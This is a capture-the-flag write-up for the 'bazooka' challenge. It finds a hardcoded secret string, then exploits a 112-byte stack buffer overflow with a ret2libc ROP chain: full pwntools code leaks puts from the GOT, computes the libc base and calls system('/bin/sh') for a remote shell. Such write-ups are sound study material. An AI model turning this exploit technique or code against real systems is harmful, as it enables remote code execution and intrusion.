




# Bazooka - CTF Writeup

**Challenge Name:** bazooka  
**Category:** Reverse Engineering / Binary Exploitation  
**Description:** We have a problem on the station on Mars, we suspect we would be attacked by some hackers so we put a little protection against them.

## Initial Analysis

Today we have a reverse engineering challenge. We'll first run the binary and see what it does.



We see that it prompts for a secret message and then says: "Try harder!". After that, we are prompted to enter some junk.

Let's analyze the binary in more detail.



The instruction at address `0x004007dd` loads the string `#!@{try_hard3r}` and then compares it to our first input.

Let's go back and input that string.



Perfect! We see that now the program goes into another function which we should crash.

From the initial binary analysis, we can see that if the first input is correct, then the program jumps to the `vuln` function.

## Vulnerability Analysis

Let's analyze the vulnerable function.



Perfect! From here we can see that we have a **112 bytes buffer**. Looking throughout the other functions, we couldn't find any system calls, so this needs to be a **ret2libc** CTF challenge.

## Attack Strategy

Let's define our attack strategy:

1. **Overflow the buffer** to overwrite the return address
   - We need to write 120 bytes (112 bytes buffer + 8 bytes to overwrite RBP)
   - The next bytes will overwrite RIP, allowing us to control the return address

2. **Leak a libc address**
   - We'll leak the `puts` address from the GOT
   - Use a `pop rdi; ret` gadget to load `puts_got` address into RDI
   - Call `puts@plt` to print the address
   - Return to main to continue execution

3. **Calculate libc base and function addresses**
   - Use the leaked `puts` address to calculate libc base
   - Find offsets for `system` and `/bin/sh` string

4. **Execute the final payload**
   - Overflow the buffer again
   - Call `system("/bin/sh")` to get a shell

## Exploit Code

### Part 1: Leaking libc Address

```python
from pwn import *

# Connect to the remote server
p = remote("35.246.235.150", 31981)

# Addresses found through static analysis
puts_got = 0x601018
puts_plt = 0x4005b0
pop_rdi_ret = p64(0x00000000004008f3)
loop_addr = 0x0040079c

print("puts_got:", hex(puts_got))
print("puts_plt:", hex(puts_plt))

# Send the secret message
p.recvuntil(b"message:")
first_message = b"#!@{try_hard3r}"
p.sendline(first_message)

# Prepare the payload to leak puts address
p.recvuntil(b"Message: ")
overflow_buffer = b'a' * 120

payload = overflow_buffer + pop_rdi_ret + p64(puts_got) + p64(puts_plt) + p64(loop_addr)
p.sendline(payload)

# Receive the leaked address
a = p.recvline()  # hacker alert message
leaked = p.recvline()
print("libc puts addr:", repr(leaked))
```

**Note:** The ROP gadget was found by running:
```bash
ROPgadget --ropchain --binary <binary_name> | grep "pop rdi"
```

### Part 2: Exploiting with system()

After obtaining the `puts` address, we found the libc version to get the correct function offsets.

```python
# Parse the leaked address
leaked = leaked.strip()
if len(leaked) < 8:
    leaked = leaked.ljust(8, b"\x00")

puts_addr = u64(leaked)
print("puts_addr:", hex(puts_addr))

# Libc offsets (found using libc database)
system_offset = 0x4f550
str_bin_sh = 0x1b3e1a
puts_offset = 0x80aa0

# Calculate libc base
libc_base = puts_addr - puts_offset
print("libc base:", hex(libc_base))

# Calculate target addresses
bin_sh_addr = libc_base + str_bin_sh
system_addr = libc_base + system_offset

print("bin_sh_addr:", hex(bin_sh_addr))
print("system offset:", hex(system_addr))

# Send the secret message again
p.sendline(first_message)

# Prepare the final payload
simple_ret = 0x0000000000400596  # Stack alignment gadget

payload = overflow_buffer + pop_rdi_ret + p64(bin_sh_addr) + p64(simple_ret) + p64(system_addr)
p.sendline(payload)

# Get shell
p.interactive()
```

## Key Techniques

- **Buffer Overflow:** Exploiting a 112-byte buffer to overwrite the return address
- **ret2libc:** Bypassing missing system calls by leveraging libc functions
- **ASLR Bypass:** Leaking libc addresses to calculate function locations at runtime
- **ROP Chains:** Using Return-Oriented Programming to control program flow

## Flag

After running the exploit successfully, we get a shell and can retrieve the flag from the remote system!